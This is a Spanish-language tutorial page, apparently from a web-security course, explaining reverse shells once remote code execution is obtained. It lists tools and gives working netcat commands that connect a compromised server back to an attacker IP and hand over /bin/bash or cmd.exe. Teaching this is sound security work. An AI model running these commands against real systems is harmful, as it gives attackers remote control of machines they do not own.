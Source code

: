 ```yaml
---
title : "Reverse Shell"
lead: ""
date: 2020-10-06T08:48:45+00:00
draft: false
images: []
menu:
  docs:
    parent: "apps-web"
weight: 060
---
```


## Descripción General

En el capítulo anterior vimos cómo ejecutar comandos de manera remota en un servidor, sin tener acceso a una
terminal. Esto es muy útil en un comienzo, pero rápidamente se vuelve evidente la lentitud, torpeza y limitaciones
que significa este medio. Sería mucho más cómodo si de alguna forma se pudiese obtener acceso a una terminal,
o _shell_, con la cual ejecutar comandos de manera más directa, y sin tener que pasar por todo el proceso
remoto.

Afortunadamente existen las shell reversas: a diferencia de una shell normal, en la cual el cliente se conecta
a un servidor escuchando por conexiones, una shell reversa implica que el cliente está a la espera de una
conexión, y es el servidor quien la inicia. Asumiendo que ya tienen RCE, es posible iniciar una reverse shell con
un par de comandos, aunque puede ser necesario evadir algún filtro, firewall o antivirus.

Los pasos para levantar una reverse shell son los siguientes:
1. El atacante espera por conexiones TCP en algún puerto específico (por ejemplo 4444).

2. El servidor inicia una conexión TCP con el atacante en el puerto especificado.

3. Una vez establecida la conexión, el servidor levanta una shell
   (como `sh` o `bash` en Linux, y `cmd.exe` o `powershell.exe` en Windows).

4. Todos los mensajes del atacante son redirigidos a la entrada estándar de la shell, y la salida estándar de
esta es redirigida por la conexión hacia el atacante.

## Herramientas

En términos generales, cualquier programa que permita escuchar e iniciar comunicaciones TCP, y luego redirigir
las entradas y salidas estándar, debería funcionar. Los más comunes son:
* Linux: `nc`, `ncat`, `netcat`, `socat`
* Windows: `nc.exe`

También se puede iniciar reverse shells con casi todos los lenguajes de programación.
[Aquí](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
pueden encontrar documentación sobre muchas técnicas distintas de iniciar reverse shells.

## Ejemplo

### Cliente

Para empezar a escuchar en el puerto `4444` por conexiones TCP, puede usar `nc` de la siguiente forma:

    nc -lvp 4444

También pueden usar [pwncat](https://github.com/calebstewart/pwncat), que está hecho para reverse shells,
y tiene más características, como autocompletado con TAB.

    pwncat --listen --port 4444

### Servidor

En el servidor usualmente no se tiene control de los programas instalados, por lo que se tendrán que adaptar
a lo que encuentren ahí. De todas formas, casi siempre está instalado `nc` o `nc.exe`. Para iniciar la conexión
a la IP `1.2.3.4` y puerto `4444`, levantar la shell y redirigir la entrada y salida estándar, se ejecuta lo siguiente:

    nc -c /bin/bash 1.2.3.4 4444
    nc.exe 1.2.3.4 4444 -e cmd.exe

### Prueba de Concepto

Ejecutamos lo descrito anteriormente, con una misma máquina funcionando como cliente y servidor. En el lado
del servidor no se ve nada muy interesante:

![Reverse Shell Server](../reverse-shell-server.png)

Pero el cliente ahora tiene una shell nueva:

![Reverse Shell Client](../reverse-shell-client.png)
